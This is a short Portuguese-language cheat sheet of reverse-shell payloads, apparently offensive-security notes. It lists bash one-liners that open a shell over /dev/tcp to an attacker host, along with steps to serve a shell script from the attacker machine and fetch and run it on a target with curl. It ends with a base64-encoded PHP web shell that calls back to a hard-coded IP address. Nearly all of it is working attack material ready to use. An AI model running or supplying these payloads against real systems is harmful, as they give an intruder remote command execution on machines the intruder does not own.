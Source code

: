 ## Payloads:

### Bash:
`/bin/bash -c 'bash -i > /dev/tcp/$LHOST/$LPORT 0>&1`
`bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1`

## Shell reversa com script bash:
1. Crie um script em bash com o payload `bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1` e extensão `.sh`.
2. Inicie um servidor http na máquina atacante com `python3 -m http.server 80`
3. Faça o download do script na máquina alvo na pasta temporária com `curl http://$LHOST/shell.sh -o /tmp/shell.sh`
4. Altere a permissão de execução do arquivo no alvo com `chmod +x /tmp/shell.sh`
5. Execute o script no alvo com `/bin/bash /tmp/shell.sh`


## Criar shell reversa em PHP no alvo com echo, utilize o comando abaixo para gerar o payload:
```bash
echo "echo $(echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.9.58.140/443 0>&1'\"); ?>" | base64) | base64 -d > shell.php"
# Payload:
#echo PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNTguMTQwLzQ0MyAwPiYxJyIpOyA/Pgo= | base64 -d > shell.php
```
